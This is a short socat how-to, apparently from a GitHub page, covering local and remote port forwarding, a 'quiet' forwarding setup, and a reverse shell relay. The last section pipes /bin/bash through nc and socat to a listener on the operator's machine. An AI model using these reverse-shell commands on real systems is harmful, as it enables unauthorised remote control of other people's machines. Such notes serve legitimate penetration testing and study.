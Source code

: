 Here's your Socat guide, formatted for better readability on GitHub:

---

### Socat: A Multipurpose Relay Tool

Socat is a versatile relay tool that can be used for port forwarding.

#### Port Forwarding

Run the following command on your local machine:
```bash
socat tcp-listen:8080,fork tcp:<remote-ip>:80
```
With the command above, you can access [http://localhost:8080/](http://localhost:8080/) and get the content of the remote website.

#### Port Forwarding (from Remote Machine)

Run the following command on the remote machine:
```bash
socat tcp-listen:1234,fork,reuseaddr tcp:localhost:8080
```
With the command above, you can access `http://<remote-ip>:1234` on your local machine, and get the content of the remote 8080 port.

#### Quiet Port Forwarding

1. **Open Up Two Ports on Local Machine:**
   ```bash
   socat tcp-listen:<local-port> tcp-listen:<remote-port>,fork,reuseaddr &
   ```

2. **Make a Connection between Local Port and Remote Port:**

   On the remote machine:
   ```bash
   socat tcp:<local-ip>:<local-port> tcp:<remote-ip>:<remote-port>,fork &
   ```

3. **Confirmation on Your Local Machine:**

   For example, if `<remote-port>` is 8000 (HTTP), you can access `localhost:<remote-port>`.

4. **Stop Port Forwarding:**
   ```bash
   # Stop backgrounds
   jobs
   # kill %<NUMBER>
   kill %1
   ```

#### Reverse Shell Relay

1. **Open Listener on Your Local Machine:**
   ```bash
   nc -lvnp <local-port>
   ```

2. **Run Socat on Remote Machine:**
   ```bash
   ./socat tcp-l:8000 tcp:<local-ip>:<local-port> &
   nc 127.0.0.1 8000 -e /bin/bash
   ```

3. **Confirmation on Your Local Machine:**

   You can connect to the remote shell and confirm by running some commands, e.g.:
   ```bash
   whoami
   ```

4. **Stop Reverse Shell Relay:**
   ```bash
   # Stop backgrounds
   jobs
   # kill %<NUMBER>
   kill %1
   ```

#### References

- [How to Setup SSH Tunneling](https://linuxize.com/post/how-to-setup-ssh-tunneling/)

---

Hope this helps! 🚀

